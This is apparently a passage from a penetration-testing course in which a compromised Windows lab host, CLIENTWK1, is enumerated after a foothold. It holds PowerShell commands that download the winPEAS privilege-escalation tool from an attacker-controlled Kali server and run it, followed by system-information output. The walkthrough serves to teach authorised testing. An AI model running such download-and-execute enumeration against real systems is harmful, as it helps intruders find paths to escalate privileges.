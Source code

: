 ## 27.4.1. Situational Awareness

In this section, we'll attempt to gain situational awareness on the CLIENTWK1 system and the internal network. First, we'll perform local enumeration on CLIENTWK1 to obtain an overview of the system and identify potentially valuable information and data. Then, we'll enumerate the domain to discover users, computers, domain administrators, and potential vectors for lateral movement and privilege escalation.

For this Learning Unit, we'll not explicitly store every result in our workspace directory on Kali. However, to get used to the documenting process you should create notes of all findings and information while following along.

Let's start with enumerating the CLIENTWK1 machine. Let's copy the 64-bit winPEAS executable to the directory served by the Python3 web server. On CLIENTWK1, we'll change the current directory to the home directory for *marcus* and download *winPEAS* from our Kali machine. Once downloaded, we'll launch it.

```
PS C:\Windows\System32\WindowsPowerShell\v1.0> cd C:\Users\marcus
cd C:\Users\marcus

PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe

PS C:\Users\marcus> .\winPEAS.exe
.\winPEAS.exe
...
```

> Listing 41 - Downloading and executing winPEAS

Let's review some of the results provided by winPEAS. We'll start with the *Basic System Information* section.

```
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: CLIENTWK1
    Domain Name: beyond.com
    ProductName: Windows 10 Pro
    EditionID: Professional
```

> Listing 42 - Basic System Information

Listing 42 shows that winPEAS detected CLIENTWK1's operating system as Windows 10 Pro. As we have learned in the course, winPEAS may falsely detect Windows 11 as Windows 10, so let's manually check the operating system with **systeminfo**.

```
PS C:\Users\marcus> systeminfo
systeminfo

Host Name:                 CLIENTWK1
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22000 N/A Build 22000
```

